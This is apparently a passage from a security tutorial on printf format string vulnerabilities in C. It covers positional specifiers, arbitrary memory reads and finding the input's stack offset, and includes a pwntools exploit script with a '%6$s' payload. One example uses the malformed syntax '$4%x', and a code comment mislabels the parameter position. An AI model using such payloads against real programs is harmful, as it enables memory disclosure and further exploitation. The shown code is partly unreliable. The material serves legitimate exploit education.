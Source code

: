 The format **`%<n>$x`**, where `n` is a number, allows to indicate to printf to select the n parameter (from the stack). So if you want to read the 4th param from the stack using printf you could do:

```c
printf("%x %x %x %x")
```

and you would read from the first to the forth param.

Or you could do:

```c
printf("$4%x")
```

and read directly the forth.

Notice that the attacker controls the `pr`**`intf` parameter, which basically means that** his input is going to be in the stack when `printf` is called, which means that he could write specific memory addresses in the stack.

{% hint style="danger" %}
An attacker controlling this input, will be able to **add arbitrary address in the stack and make `printf` access them**. In the next section it will be explained how to use this behaviour.
{% endhint %}

## **Arbitrary Read**

It's possible to use the formatter **`%n$s`** to make **`printf`** get the **address** situated in the **n position**, following it and **print it as if it was a string** (print until a 0x00 is found). So if the base address of the binary is **`0x8048000`**, and we know that the user input starts in the 4th position in the stack, it's possible to print the starting of the binary with:

```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```

{% hint style="danger" %}
Note that you cannot put the address 0x8048000 at the beginning of the input because the string will be cat in 0x00 at the end of that address.
{% endhint %}

### Find offset

To find the offset to your input you could send 4 or 8 bytes (`0x41414141`) followed by **`%1$x`** and **increase** the value till retrieve the `A's`.

<details><summary>Brute Force printf offset</summary></details>
